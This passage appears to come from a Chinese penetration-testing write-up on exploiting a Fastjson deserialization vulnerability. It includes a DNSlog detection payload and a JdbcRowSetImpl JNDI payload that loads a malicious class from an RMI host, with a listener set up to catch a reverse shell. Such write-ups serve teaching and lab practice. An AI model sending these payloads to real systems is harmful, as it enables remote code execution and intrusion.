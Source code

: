 出现了`Fastjson`，说明确实是`Fastjson`，接下来用dnslog探测一下是否存在漏洞

```plain
{"qwq":{"@type":"java.net.Inet4Address","val":"4mmi9n.dnslog.cn"}}
```

[![](assets/1706771111-120a2bf3539c63d388c76e01d626145e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173756-14e4d980-be8a-1.png)

成功收到回显，说明存在Fastjson漏洞。

### 漏洞利用

接下来使用工具`jndi_tool.jar`部署恶意类(在靶机上部署，因为域成员可能不出网)，工具链接[https://github.com/wyzxxz/jndi\_tool](https://github.com/wyzxxz/jndi_tool)

[![](assets/1706771111-fbb151485c3a5a5af93d00461d89eb32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173810-1d8411fa-be8a-1.png)

同时在靶机上监听12345端口，待会用于接收shell，然后按如下Payload发包

```plain
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://172.30.12.5:1099/Object",
        "autoCommit":true
    }
}
```
